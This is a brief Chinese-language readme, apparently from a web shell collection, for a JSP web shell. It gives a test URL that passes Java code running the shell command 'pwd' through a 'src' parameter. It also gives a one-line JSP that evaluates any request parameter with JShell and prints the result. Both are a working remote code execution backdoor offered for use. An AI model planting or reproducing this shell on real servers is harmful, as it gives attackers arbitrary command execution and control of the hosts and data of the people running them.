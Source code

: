 readme

![图片](https://raw.githubusercontent.com/tennc/webshell/master/jsp/p2j.cn/20190910185302_297.png)

测试用例：http://localhost:8080/modules/jshell.jsp?src=new%20java.io.BufferedReader(new%20java.io.InputStreamReader(Runtime.getRuntime().exec(%22pwd%22).getInputStream())).readLine()

如果强迫症想撸掉多余的输出：


<%=jdk.jshell.JShell.builder().build().eval(request.getParameter("src")).get(0).value().replaceAll("^\"", "").replaceAll("\"$", "")%>

